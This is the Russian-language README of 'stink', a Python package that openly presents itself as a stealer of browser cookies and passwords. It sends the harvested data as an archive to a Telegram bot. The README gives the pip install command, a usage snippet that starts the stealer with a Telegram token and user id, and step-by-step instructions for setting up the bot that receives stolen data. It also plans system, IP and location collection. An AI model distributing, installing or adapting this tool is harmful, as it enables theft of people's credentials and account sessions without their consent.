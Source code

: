 # stink

Стиллер куки и паролей с отправкой в Telegram.

## Описание
`stink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)

### Текущие возможности
1. Сбор куки и паролей следующих браузеров: Chrome, Opera, Opera GX.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других браузеров.
2. Сбор информации о системе.
3. Сбор айпи и местоположения.
 
## Установка

Установить последнюю версию можно командой:
```
pip install stink
```

## Пример использования
### Стандартный
```python
from stink.multistealer import Stealer

stealer = Stealer(token="YOUR_TOKEN", user_id=YOUR_ID)
stealer.run()
```

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду `/newbot`.
<p align="left">
  <a href="">
    <img src="docs/1.png" width="298px" style="display: inline-block;">
  </a>
</p>
3. Прописываем название бота с прикладкой `_bot` в конце.
<p align="left">
  <a href="">
    <img src="docs/2.png" width="298px" style="display: inline-block;">
  </a>
</p>
4. Прописываем команду `/token`, затем название бота с прикладкой `@` в начале.
<p align="left">
  <a href="">
    <img src="docs/3.png" width="298px" style="display: inline-block;">
  </a>
</p>
5. Полученный токен вставляем в поле `"YOUR_TOKEN"` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду `/start`.
<p align="left">
  <a href="">
    <img src="docs/4.png" width="298px" style="display: inline-block;">
  </a>
</p>
4. Полученный айди вставляем в поле `YOUR_ID` в скрипте.
